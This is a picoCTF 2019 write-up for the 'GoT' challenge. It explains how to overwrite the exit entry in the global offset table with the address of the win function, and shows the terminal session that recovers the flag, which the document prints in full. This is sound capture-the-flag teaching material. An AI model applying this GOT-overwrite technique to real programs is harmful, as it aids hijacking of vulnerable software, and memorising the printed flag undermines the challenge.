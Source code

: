 # GoT
#### You can only change one address, here is the problem: [program](https://2019shell1.picoctf.com/static/50e3e3de100ade32e3602c23c76fda64/vuln). It is also found in /problems/got_0_4521f0cfb186aab8acc47d9abe572bdb on the shell server. [Source](https://2019shell1.picoctf.com/static/50e3e3de100ade32e3602c23c76fda64/vuln.c).

To solve this problem we can replace the address of exit in in the [global offset table](https://en.wikipedia.org/wiki/Global_Offset_Table) with the address of the win function.
To find the address of exit and win in the GOT we can use the python script above in this repository.
```
Supermac30@pico-2019-shell1:~$ python got.py
[*] '/problems/got_0_4521f0cfb186aab8acc47d9abe572bdb/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
got is 134520860
win is 134514118
Supermac30@pico-2019-shell1:~$ cd /problems/got_0_4521f0cfb186aab8acc47d9abe572bdb
Supermac30@pico-2019-shell1:/problems/got_0_4521f0cfb186aab8acc47d9abe572bdb$ ./vuln
You can just overwrite an address, what can you do?

Input address

134520860
Input value?

134514118
The following line should print the flag

picoCTF{A_s0ng_0f_1C3_and_f1r3_09c9e483}
Segmentation fault (core dumped)
```
Flag: picoCTF{A_s0ng_0f_1C3_and_f1r3_09c9e483}
